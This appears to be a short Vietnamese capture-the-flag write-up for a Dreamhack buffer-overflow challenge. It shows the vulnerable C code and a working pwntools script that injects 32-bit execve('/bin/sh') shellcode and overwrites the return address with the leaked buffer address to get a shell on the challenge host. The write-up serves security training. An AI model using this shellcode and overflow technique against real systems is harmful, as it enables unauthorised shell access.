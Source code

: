 ```c 
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```
- Biến `buf` chỉ khai báo 0x80 byte nhưng cho phép nhập vào 141 byte nên có lỗi `buffer overflow`
- Đề in ra địa chỉ của `buf` và chế độ bảo vệ thực thi bị tắt nên ta đưa shellcode chiếm `/bin/sh` vào `buf` sau đó đưa địa chỉ trả về là địa chỉ của `buf`
- Vì là kiến trúc 32 bit nên các tham số sẽ được đưa vào lần lượt các thanh ghi `ebx, ecx, edx, esi, edi`
### Script
```python=
#!/usr/bin/python3

from pwn import *

#p = process('./basic_exploitation_000')
context.arch = 'i386'
p = remote('host3.dreamhack.games', 12797)

payload  = asm('''
        xor eax, eax
        push 0x68732f
        push 0x6e69622f
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        mov al, 0x8
        inc al
        inc al
        inc al
        int 0x80
''')

payload = payload.ljust(132, b'a')

p.recvuntil('buf = (')

buf = int(p.recv(10),16)
log.info(buf)
p.recvline()

payload += p32(buf)

p.sendline(payload)
p.interactive()
```
